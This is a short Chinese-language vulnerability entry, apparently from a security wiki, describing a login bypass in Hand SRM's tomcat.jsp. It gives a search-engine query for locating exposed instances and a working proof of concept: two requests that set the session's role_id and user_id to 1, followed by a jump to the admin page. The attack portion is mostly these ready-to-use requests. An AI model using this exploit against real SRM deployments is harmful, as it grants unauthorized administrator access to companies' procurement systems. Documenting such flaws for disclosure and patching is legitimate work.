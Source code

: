 # 汉得SRM tomcat.jsp 登陆绕过漏洞

## 漏洞描述

汉得SRM tomcat.jsp 文件存在登陆绕过漏洞, 攻击者通过发送请求包，可以获取后台管理员权限

## 漏洞影响

<a-checkbox checked>汉得SRM </a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="汉得SRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1686046062155-51fc2944-47d1-40c2-ac6e-c0dfa7c7e180.png)

验证POC (Tomcat session操控)

```plain
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

![img](../../../.vuepress/public/img/1686046136394-1bd2fed1-a82b-485c-a50a-d292ea08ad4c.png)

访问跳转后台

```plain
/main.screen
```
